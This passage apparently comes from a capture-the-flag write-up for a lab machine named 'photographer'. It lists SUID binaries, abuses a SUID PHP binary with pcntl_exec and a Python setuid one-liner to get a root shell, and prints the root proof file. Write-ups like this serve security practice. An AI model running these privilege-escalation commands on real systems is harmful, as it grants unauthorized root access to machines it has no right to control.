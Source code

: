 Listing the SUID binaries, an uncommon PHP executable has those permissions, so we can abuse it to escalate privileges.

```console
www-data@photographer:/home/agi/share$ find / -perm -u=s -type f 2>/dev/null
...
/usr/bin/php7.2
...
```

## Privilege Escalation
### SUID Binary

To get root I used the PHP function **pcntl_exec** that executes specified program in current process space maintaining the permissions of the binary, this was extracted from the [GTFOBINS](https://gtfobins.github.io/gtfobins/php/#suid) guide.


```console
www-data@photographer:/home/agi/share$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# python -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
root@photographer:/home/agi/share# cd /root/
root@photographer:/root# ls
proof.txt
root@photographer:/root# cat proof.txt 
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`                     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-                       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-                         
                           -/+/-:-/y+/d:yh-o:+--/+/:`                           
                              `-///////////////:`                               
                                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e
```
